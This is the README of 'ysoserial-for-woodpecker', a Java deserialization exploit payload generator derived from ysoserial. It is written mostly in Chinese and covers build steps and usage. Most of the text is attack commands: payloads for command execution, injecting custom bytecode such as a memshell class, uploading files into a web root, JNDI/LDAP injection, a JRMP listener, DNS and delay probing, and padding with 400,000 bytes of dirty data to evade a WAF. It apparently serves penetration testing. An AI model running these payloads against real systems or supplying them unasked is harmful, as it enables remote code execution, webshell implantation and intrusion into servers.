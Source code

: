 # ysoserial-for-woodpecker

## 0x01 简介
`ysoserial-for-woodpecker`是基于 [ysoserial](https://github.com/frohoff/ysoserial) ,为woodpecker框架定制开发的JDK反序列化gadget集成库。

## 0x02 编译
Requires Java 1.7+ and Maven 3.x+

```
mvn clean package -DskipTests
```
## 0x03 简单使用

```
usage: ysoserial-for-woodpecker-<version>.jar [-a <arg>] [-c] [-ddl <arg>]
       [-g <arg>] [-l]
 -a,--args <arg>                 gadget parameters
 -c,--compress                   Zip the Templates gadgets
 -ddl,--dirt-data-length <arg>   Add the length of dirty data, used to
                                 bypass WAF
 -g,--gadget <arg>               java deserialization gadget
 -l,--list                       List all gadgets
```


#### 3.1 延时探测
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "sleep:10"
```
#### 3.2 dns探测
```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "dnslog:xxx.dnslog.cn"
```

#### 3.3 DNS探测class
可用于探测

```
java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByDNS -a "http://string.dnslog.cn|java.lang.String"
```

#### 3.4 延时探测class
注意设置深度，经过实战深度一般在25-28之间，太大会导致dos。

```
java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|28"
```

#### 3.5 执行命令

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "raw_cmd:calc.exe"
```

#### 3.6 执行自定义字节码

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "class_file:/tmp/memshell.class"
```

#### 3.7 上传文件

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "upload_file:/tmp/local_file.txt|/var/www/remote_file.txt"
```

#### 3.8 执行js

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsBeanutils1 -a "script_file:/tmp/sleep.js"
```

#### 3.9 JRMP

```
java -cp ysoserial-for-woodpecker-<version>.jar me.gv7.woodpecker.yso.exploit.JRMPListener 1234 CommonsCollections6Lite "raw_cmd:calc.exe"
```

#### 3.10 JNDI

```
java -jar ysoserial-for-woodpecker-<version>.jar -g Spring3 -a "jndi:ldap://127.0.0.1:1089/obj"
```
#### 3.11 Bypass waf
加入40w脏数据绕WAF

```
java -jar ysoserial-for-woodpecker-<version>.jar -g CommonsCollections6 -a "raw_cmd:calc" --dirt-data-length 400000
```

更多功能移步`0x04 更多功能命令`
## 0x04 更多功能命令
- [ ] sleep 生成延时payload
- [ ] dnslog 生成dnslog payload
- [ ] httplog 生成httplog payload
- [ ] upload_file  上传文件，通过文件名
- [ ] upload_file_base64 上传文件，通过文件base64内容
- [ ] raw_cmd 原生的命令执行
- [ ] win_cmd 在windows下执行命令
- [ ] linux_cmd 在linux下执行命令
- [ ] auto_cmd  自动判断操作系统执行命令
- [ ] class_file 注入class文件，执行class代码
- [ ] class_base64 注入class base64编码内容，执行class代码
- [ ] code_file 注入要执行的代码
- [ ] code_base64 注入要执行代码的base64编码
- [ ] bcel 注入bcel字符串，实现代码执行
- [ ] bcel_class_file 通过文件注入
- [ ] bcel_with_args 注入bcel字符串和参数，实现代码执行
- [ ] bcel_class_file_with_args 通过文件注入和参数，实现代码执行
- [ ] script_file 通过js引擎执行代码
- [ ] script_base64  通过js引擎执行代码
- [ ] loadjar 调用jar中类的无参构造器
- [ ] loadjar_with_args 调用jar中类的参数为一个String的构造器
- [ ] jndi jndi注入
